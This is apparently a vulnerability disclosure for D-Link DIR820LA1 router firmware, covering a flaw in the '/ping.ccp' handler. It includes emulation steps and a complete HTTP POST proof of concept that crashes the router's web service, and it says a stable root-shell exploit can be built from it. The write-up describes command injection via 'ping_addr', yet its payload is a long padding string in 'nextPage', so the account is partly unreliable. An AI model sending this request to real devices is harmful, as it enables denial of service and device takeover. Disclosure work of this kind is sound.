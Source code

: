 # D-link DIR820LA1_FW105B03 Command injection vulnerability

A command injection vulnerability exists in pingV4Msg of component "/ping.ccp" of D-Link DIR820LA1_FW105B03, allowing an attacker to elevate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_49E5B0` function obtains the content of the variable `ping_addr`  from the request of `/ping.ccp`, and splicing the parameters of the system causes the command to be executed.

![vuln1](vuln1.png)

The ccp_ping function references the vulnerable `sub_49E5B0` function when the ccp_act parameter is set to cancelPing.

![vuln2](vuln2.png)



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	<img src="firmAE.png" alt="firmAE" style="zoom:70%;" /><img src="FirmAE2.png" alt="FirmAE2" style="zoom:70%;" />

2. Attack with the following POC attacks

​	**Attack Vector**：`ccp_act=cancelPing&nextPage=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

- Run the poc, the router's web service will crash

```xml
POST /ping.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 760
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=cancelPing&nextPage=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.